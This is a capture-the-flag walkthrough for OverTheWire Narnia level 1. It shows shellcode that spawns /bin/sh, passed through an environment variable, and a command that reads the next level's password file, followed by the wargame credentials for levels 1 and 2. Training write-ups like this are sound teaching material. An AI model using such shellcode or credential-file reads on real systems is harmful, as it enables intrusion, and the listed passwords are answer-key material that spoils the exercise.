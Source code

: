 ### Narnia Level 1

[narnia1](http://overthewire.org/wargames/narnia/narnia1.html)

**Username**: *narnia1*

**Password**: *efeidiedae*

#### Solution

* http://shell-storm.org/shellcode/files/shellcode-811.php

```bash
export EGG=$(python -c'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
cat /etc/narnia_pass/narnia2
```

#### Credentials for Level 2

**Username**: *narnia2*

**Password**: *nairiepecu*

